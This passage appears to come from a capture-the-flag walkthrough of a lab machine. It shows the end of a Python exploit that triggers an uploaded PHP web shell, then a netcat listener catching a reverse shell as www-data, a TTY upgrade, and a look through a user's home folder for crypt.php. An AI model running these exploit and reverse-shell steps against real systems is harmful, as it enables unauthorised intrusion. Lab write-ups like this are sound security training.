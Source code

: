 ```python
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```

Then run the python script.

- Command: `python 48980.py http://192.168.217.218/mon/ 192.168.49.217 443`

```shell
geobour98@kali:~$ python 48980.py http://192.168.217.218/mon/ 192.168.49.217 443
A shell script should be uploaded. Now we try to execute it

```

Before running it, open a netcat listener on `443` port.

```shell
geobour98@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.218] 42540
bash: cannot set terminal process group (570): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<img$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ^Z
zsh: suspended  nc -lvnp 443

geobour98@kali:~$ stty raw -echo;fg
[1]  + continued  nc -lvnp 443
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ export TERM=xterm-256color
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ stty rows 38 cols 111
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we have a reverse shell as the `www-data` user.

There is an interesting file `reminder` in `/home/fox/` with contents:


```shell
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

We try to find `crypt.php` in the filesystem, but no luck there. Then, we see an interesting folder `devel` in `/home/fox/`, where we have `execute` permissions but not `read`. Navigate there and try to open the file.


```shell
www-data@icmp:/home/fox$ find / -type f -name crypt.php 2>/dev/null
www-data@icmp:/home/fox$ cd devel
www-data@icmp:/home/fox/devel$ cat crypt.php
<?php
echo crypt('[REDACTED]','da');
?>
www-data@icmp:/home/fox/devel$
```
